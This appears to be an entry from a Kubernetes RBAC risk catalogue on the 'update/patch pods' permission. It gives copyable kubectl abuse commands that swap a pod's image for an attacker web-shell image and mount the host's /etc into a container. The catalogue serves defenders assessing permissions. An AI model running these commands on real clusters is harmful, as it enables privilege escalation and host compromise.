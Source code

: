 ```yaml
---
id: 1009
title: "Update/Patch pods in a namespace"
description: "Allows modifying existing pods within a specific namespace. This can be used to escalate privileges by changing a pod's configuration to run with higher permissions, execute arbitrary code, or tamper with application behavior within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                              |
| ------------- | -------------------------------------------------------------------------------------------------- |
| ID            | 1009                                                                                               |
| Name          | Update/Patch pods in a namespace                                                                   |
| Risk Category | Elevation of Privilege                                                                             |
| Risk Level    | {{< risk High >}}                                                                                  |
| Role Type     | Role                                                                                               |
| API Groups    | core                                                                                               |
| Resources     | pods                                                                                               |
| Verbs         | update, patch                                                                                      |
| Tags          | {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadExecution" >}} |

## Description

Allows modifying existing pods within a specific namespace. This can be used to escalate privileges by changing a pod's configuration to run with higher permissions, execute arbitrary code, or tamper with application behavior within that namespace.

## Abuse Scenarios

1. Patch a running pod in the namespace to change its container image.

```bash {copy=true}
kubectl set image pod/<pod-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image pod/my-web-app web=attacker/web-shell -n dev

```

2. Patch a running pod to add a hostPath volume mount (if not blocked by PSP/PSA).

```bash {copy=true}
kubectl patch pod <pod-name> -n <namespace> --type='json' -p='[{"op": "add", "path": "/spec/volumes/-", "value": {"name": "host-path-vol", "hostPath": {"path": "/etc"}}}, {"op": "add", "path": "/spec/containers/0/volumeMounts/-", "value": {"name": "host-path-vol", "mountPath": "/mnt/host-etc"}}]'
# Example: kubectl patch pod my-app -n default --type='json' -p='[{"op": "add", "path": "/spec/volumes/-", "value": {"name": "host-path-vol", "hostPath": {"path": "/etc"}}}, {"op": "add", "path": "/spec/containers/0/volumeMounts/-", "value": {"name": "host-path-vol", "mountPath": "/mnt/host-etc"}}]'

```
